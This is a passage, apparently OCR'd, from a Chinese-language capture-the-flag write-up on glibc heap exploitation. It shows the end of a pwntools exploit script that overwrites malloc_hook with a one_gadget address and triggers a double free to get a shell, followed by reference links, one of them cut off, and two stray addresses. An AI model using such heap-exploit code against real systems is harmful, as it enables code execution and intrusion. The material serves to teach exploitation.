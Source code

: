 ```python
info("unsorted bin 使得 malloc_hook 有 libc 的地址")



over = "R"*0x13   # padding for malloc_hook
over += "\xa4\xd2\xbf"
edit(0,over)

info("malloc_hook to one_gadget")

free(18)
free(18)

p.recvuntil("double free or corruption")
p.sendline("\n")
sleep(0.2)

p.sendline("uname -a")
data = p.recvuntil("GNU/Linux", timeout=2)
if "Linux" in data:
    p.interactive()
else:
    exit(0)
```

## 参考链接

[ChaMD5 Writeup](https://mp.weixin.qq.com/s/A0T1VJmfvPcWaBD5ubrbPA)

[某博客](https://xz.aliyun.com/t/2316)

[强网杯原题exp](

7f5bda882000

7f294b801000
